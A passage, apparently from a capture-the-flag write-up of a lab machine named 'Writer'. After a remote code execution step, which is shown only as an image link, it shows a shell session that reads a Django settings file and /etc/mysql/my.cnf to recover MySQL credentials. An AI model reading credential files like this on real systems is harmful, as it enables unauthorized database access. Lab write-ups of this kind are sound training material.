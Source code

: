 ![Inject RCE](.img/rce_trigger.png)

Once we access the machine, we can find some MySQL credentials by following the info in the file `/var/www/writer2_project/writerv2`

```bash
www-data@writer:/var/www/writer2_project/writerv2$ cat settings.py 

...
# Database
# https://docs.djangoproject.com/en/1.10/ref/settings/#databases

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',
        },
    }
}
...

www-data@writer:/var/www/writer2_project/writerv2$ cat /etc/mysql/my.cnf

...
# Import all .cnf files from configuration directory
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
...
```

